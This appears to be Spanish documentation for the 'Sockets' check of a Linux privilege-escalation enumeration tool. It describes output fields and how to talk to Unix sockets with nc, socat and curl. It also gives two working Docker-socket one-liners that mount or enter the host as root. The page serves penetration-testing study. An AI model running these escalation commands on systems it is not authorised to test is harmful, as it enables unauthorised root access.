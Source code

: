 # 📟 Sockets

## Valor devuelto
Se devuelve una tabla con aquellos sockets escuchando en el sistema.

*Campos*:
- **FILE**: 
- **PERMISSIONS**: Permisos del archivo.
- **LINKS**: Número de links del archivo.
- **USER**: Usuario al que pertenece dicho archivo.
- **GROUP**: Grupo al que pertenece dicho archivo.
- **SIZE**: Tamaño del archivo.
- **DATE**: Fecha de la última modificación del archivo.
- **INFO**: Información sobre el archivo y los permisos.
- **USES HTTP?**: Si se puede comunicar con ese socket mediante el protocolo HTTP.

La información se obtiene de los comandos `ss` y `netstat`.

## ¿De qué sirve esta información para escalar privilegios?
Es interesante analizar ciertos sockets, sobre todo aquellos que se puedan comunicar mediante HTTP.

## ¿Cómo comunicarse con un socket?
```bash
# With netcat-openbsd
nc -U /path/to/socket  # Connect to UNIX-domain stream socket
nc -uU /path/to/socket # Connect to UNIX-domain datagram socket

# With socat
socat - UNIX-CLIENT:/path/to/socket # Connect to UNIX-domain stream or datagram socket
```

## ¿Cómo comunicarse con un socket mediante HTTP?
```bash
curl --max-time 1 --unix-socket /path/to/socket http:/route
```

## Docker socket con permisos de escritura
Si se tienen permisos de escritura sobre el socket `/var/run/docker.sock` se puede usar para escalar privilegios de la siguiente forma:

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

## Referencias
- [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets)
- [Manual (ss)](https://www.man7.org/linux/man-pages/man8/ss.8.html)
- [Manual (netstat)](https://www.man7.org/linux/man-pages/man8/netstat.8.html)
- [Manual (systend.socket)](https://www.man7.org/linux/man-pages/man5/systemd.socket.5.html)










